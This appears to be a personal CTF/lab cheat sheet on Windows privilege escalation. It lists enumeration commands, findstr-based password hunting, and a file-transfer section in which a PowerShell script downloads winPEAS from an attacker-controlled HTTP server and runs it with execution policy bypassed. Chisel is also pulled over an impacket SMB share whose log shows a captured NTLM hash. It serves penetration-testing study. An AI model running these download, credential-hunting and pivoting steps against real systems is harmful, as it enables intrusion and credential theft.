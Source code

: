 ```yaml
---
title: Windows Privilege Escalation
draft: false
tags:
  - windows
  - privilege-escalation
---
```


## Plot
Let's say you have successfully compromised the system with lower user privilege. You would have to escalate your privilege into root. 

More elaborate steps could be found on [PayloadsAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/) or [sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

Here, I uploaded check list and personal tricks.



## Checklist
- [ ] Kernel Exploit?
- [ ] privileges?
- [ ] groups?
- [ ] Internal services?
- [ ] Pivoting?
- [ ] File Enumeration?
- [ ] Password Hunting?
- [ ] Scheduled Tasks?


## Basic Enumeration

### Kernel Exploit

  
```bash
systeminfo
hostname
wmic qfe get Caption,Description,HotFixID,InstalledOn
```


### Privilege

Check on user privilege:

```powershell
whoami /priv
```

- Check for **SeImpersonatePrivilege**: Potato Attack

- Check for **SeMachineAccountPrivilege**: Certify.exe

### User & Group


```powershell
whoami /all
net users
net user 'username'
net user administrator
net localgroup
net localgroup administrators
net /group domain
whoami /groups
```

### File Enumeration

First go to **C:** and see if there are and hidden directory:

```powershell
dir -force
gci -force
dir /R
```

You can also search for passwords:

```powershell
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```
## Network Information

Check for services only open internally:

**Local address 0.0.0.0**  
Local address 0.0.0.0 means that the service is listening on all interfaces. This means that it can receive a connection from the network card, from the loopback interface or any other interface. This means that anyone can connect to it.

**Local address 127.0.0.1**  
Local address 127.0.0.1 means that the service is only listening for connection from the your PC. Not from the internet or anywhere else. **This is interesting to us!**

**Local address 192.168.1.9**  
Local address 192.168.1.9 means that the service is only listening for connections from the local network. So someone in the local network can connect to it, but not someone from the internet. **This is also interesting to us!**

Also check for pivoting.

```bash
ipconfig
ipconfig /all
route print
arp -a (shows all devices on network)
netstat -ano

netsh firewall show state
netsh advfirewall firewall
netsh advfirewall dump
netsh advfirewall show allprofiles
```


If there are services running internally, check if it is running currently:

```powershell
tasklist
ps
wmic service list brief
tastlist /SVC
schtasks /query /fo LIST /v
```


## AV Detection


Usually not needed during CTF.

-antivirus

```powershell
sc query windefend
sc queryex type= service
```

-firewall setting

```powershell
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

  
  
  

## File Transfer

  

## Transferring winpeas.exe


The following sequence of commands creates a PowerShell script named **wget.ps1** that performs the download of a file (**winpeas.exe**) from a specified URL (http://10.10.16.22/winpeas.exe) using the **System.Net.WebClient** class.

Obviously, I have Python HTTP server running with **winpeas.exe** on the server.


```powershell
c:\Users\Public>echo $storageDir = $pwd > wget.ps1

echo $storageDir = $pwd > wget.ps1

c:\Users\Public>echo $webclient = New-Object System.Net.WebClient >>wget.ps1

echo $webclient = New-Object System.Net.WebClient >>wget.ps1

c:\Users\Public>echo $url = "http://10.10.16.22:80/winPEASany_ofs.exe" >>wget.ps1

echo $url = "http://10.10.16.22:80/winPEASany_ofs.exe" >>wget.ps1

c:\Users\Public>echo $file = "output-file.exe" >>wget.ps1

echo $file = "output-file.exe" >>wget.ps1

c:\Users\Public>echo $webclient.DownloadFile($url,$file) >>wget.ps1

echo $webclient.DownloadFile($url,$file) >>wget.ps1

c:\Users\Public>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

Now I have the file on the box:

[Reference](https://d00mfist.gitbooks.io/ctf/content/transfering_files_to_windows.html)

  

### impacket-smbserver

  

I started impacket-smbserver on the directory where I have chisel for windows downloaded:

```bash
┌──(yoon㉿kali)-[/opt/chisel]
└─$ impacket-smbserver share $(pwd) -smb2support
Impacket v0.10.1.dev1+20230524.180921.8b3f9eff - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.198,49709)
[*] AUTHENTICATE_MESSAGE (BUFF\shaun,BUFF)
[*] User BUFF\shaun authenticated successfully
[*] shaun::BUFF:aaaaaaaaaaaaaaaa:88bf12d0cc9b3c7901bb2dba46eef3e5:01010000000000000094cfb7c826da0173276d717b2863490000000001001000560054004f007a004600780062004c0003001000560054004f007a004600780062004c0002001000740079004d004100430064006e00500004001000740079004d004100430064006e005000070008000094cfb7c826da0106000400020000000800300030000000000000000000000000200000bf2c19dd9da880406292e63bbae8800a290ba0d9bc31ed864a57d99e51f9f83d0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0039000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
```


Now I have chisel for windows on the box. which I downloaded as **c.exe**:


```powershell
C:\xampp\htdocs\gym\upload>copy \\10.10.14.9\share\c_w c.exe
1 file(s) copied.
```

  

